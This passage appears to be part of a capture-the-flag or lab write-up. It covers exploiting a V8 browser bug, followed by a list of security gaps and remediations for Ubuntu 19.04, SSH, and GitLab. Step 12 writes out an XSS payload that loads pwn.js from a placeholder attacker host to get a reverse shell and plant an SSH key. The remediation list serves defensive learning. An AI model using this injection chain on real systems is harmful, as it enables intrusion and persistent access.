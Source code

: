 11. **Local Testing**:
    - Package exploit in `pwn.js`; serve via HTTP; run local Chrome with `--no-sandbox` to test code execution (e.g., create file or reverse shell).
    - Technique: Disable sandbox for proof-of-concept; verify primitives and execution.

12. **Remote Exploitation**:
    - Inject `<script src="http://[ATTACKER-IP]:8000/pwn.js"></script>` via contact form.
    - Browser loads script; executes shellcode for reverse shell as "chrome" user.
    - Technique: XSS injection for remote code execution; pivot to SSH key drop for persistence.

## Security Gaps and Remediation

### Ubuntu 19.04 Operating System
- **Gap: End-of-Life Status** - The OS is end-of-life, making it difficult to receive security updates via apt, leaving it exposed to unpatched vulnerabilities in the kernel and other components.
  - **Fix**: Configuration fix - Upgrade to a supported LTS version (e.g., Ubuntu 20.04 or later) to enable ongoing security patching.
- **Gap: Kernel Race Condition (USN-4069-1)** - A race condition in core dumps allows local attackers to cause denial-of-service or potentially escalate privileges.
  - **Fix**: Configuration fix - Apply kernel patches if available (challenging due to EOL); alternatively, mitigate by restricting core dump access via sysctl configurations.
- **Gap: KVM Hypervisor Bounds Checking Issue (USN-4157-1)** - Improper bounds checking in KVM allows local attackers to cause denial-of-service or execute arbitrary code.
  - **Fix**: Source code fix - Patch the kernel source to enforce proper bounds checks; Configuration fix - Disable KVM if not needed or use kernel hardening tools like AppArmor.
- **Gap: Privilege Escalation (CVE-2023-2640)** - Inadequate permission checks in the kernel allow local attackers to escalate privileges (affects ~40% of Ubuntu users in similar versions).
  - **Fix**: Source code fix - Update kernel to include permission check fixes; Configuration fix - Enable SELinux or AppArmor profiles for stricter access controls.
- **Gap: WavPack Vulnerabilities (USN-4062-1)** - Multiple issues in WavPack library allow crafted WAV files to cause crashes or denial-of-service.
  - **Fix**: Source code fix - Patch WavPack to handle malformed inputs; Configuration fix - Restrict untrusted file processing via file type filters in applications.
- **Gap: MariaDB Vulnerabilities (USN-4070-3)** - Several security issues allowing potential data exposure or denial-of-service.
  - **Fix**: Source code fix - Apply MariaDB patches for input validation; Configuration fix - Use firewall rules to limit MariaDB exposure.

### SSH Service (Port 22)
- **Gap: Version Banner Exposure** - The SSH banner reveals the exact Ubuntu version (Ubuntu 10, fingerprinting as 19.04), aiding attackers in targeting known OS vulnerabilities.
  - **Fix**: Configuration fix - Edit `/etc/ssh/sshd_config` to disable or obfuscate the banner (e.g., set `DebianBanner no`).

### GitLab on Nginx (Port 5000)
- **Gap: Remote Code Execution (CVE-2021-22204)** - Unauthenticated RCE via DjVu files processed by ExifTool, allowing arbitrary command execution.
  - **Fix**: Source code fix - Patch ExifTool to sanitize inputs; Configuration fix - Disable ExifTool processing or update GitLab to a version post-13.10.2.
- **Gap: Denial-of-Service Vulnerabilities** - Multiple DoS issues in Nginx (e.g., Nessus Plugin ID 127907) due to unpatched flaws in handling requests.
  - **Fix**: Configuration fix - Update Nginx to a patched version and configure rate limiting in `nginx.conf`.
- **Gap: Misconfiguration in Container Registry** - Registry listens on wrong port or fails connections, potentially exposing to unauthorized access.
  - **Fix**: Configuration fix - Adjust Nginx proxy settings to ensure proper port forwarding and authentication.
- **Gap: Uncontrolled Resource Consumption** - High occurrence of resource exhaustion vulnerabilities leading to DoS.
  - **Fix**: Configuration fix - Implement resource limits in GitLab CI/CD and Nginx timeouts.
- **Gap: Exposed Vulnerable Source Code** - Custom commit exposes buggy V8 code, allowing attackers to analyze and exploit.